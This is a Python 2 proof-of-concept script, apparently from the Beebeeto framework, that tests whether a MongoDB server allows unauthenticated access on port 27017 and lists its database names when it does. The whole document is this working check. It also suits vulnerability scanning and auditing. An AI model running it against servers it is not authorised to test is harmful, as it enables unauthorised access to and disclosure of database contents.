     """
    Site: http://www.beebeeto.com/
    Framework: https://github.com/ff0000team/Beebeeto-framework
    """

    import pymongo
    import urllib2
    import urlparse

    from baseframe import BaseFrame


    class MyPoc(BaseFrame):
        poc_info = {
            # poc相关信息
            'poc': {
                'id': 'poc-2014-0194',
                'name': 'Mongodb 配置不当导致未授权访问漏洞 POC',
                'author': '1024',
                'create_date': '2014-12-10',
            },
            # 协议相关信息
            'protocol': {
                'name': 'http',
                'port': [28017],
                'layer3_protocol': ['tcp'],
            },
            # 漏洞相关信息
            'vul': {
                'app_name': 'Mongodb',
                'vul_version': ['*'],
                'type': 'Information Disclosure',
                'tag': ['Mongodb信息泄露漏洞', '默认空口令未授权访问漏洞', '27017/28017端口'],
                'desc': 'mongodb启动时未加 --auth选项，导致无需认证即可连接mongodb数据库，从而导致一系列安全问题。',
                'references': ['N/A',
                               ],
            },
        }


        @classmethod
        def verify(cls, args):
            verify_url = args['options']['target']
            ip_addr = urlparse.urlparse(verify_url).netloc
            if args['options']['verbose']:
                print '[*] Connect mongodb: ' + ip_addr + ':27017'
            try:
                conn = pymongo.MongoClient(ip_addr, 27017, socketTimeoutMS=3000)
                dbname = conn.database_names()
                if dbname:
                    args['success'] = True
                    args['poc_ret']['vul_url'] = ip_addr + ':27017'
                    args['poc_ret']['database_names'] = dbname
            except Exception, e:
                print str(e)
                args['success'] = False
                return args
            return args
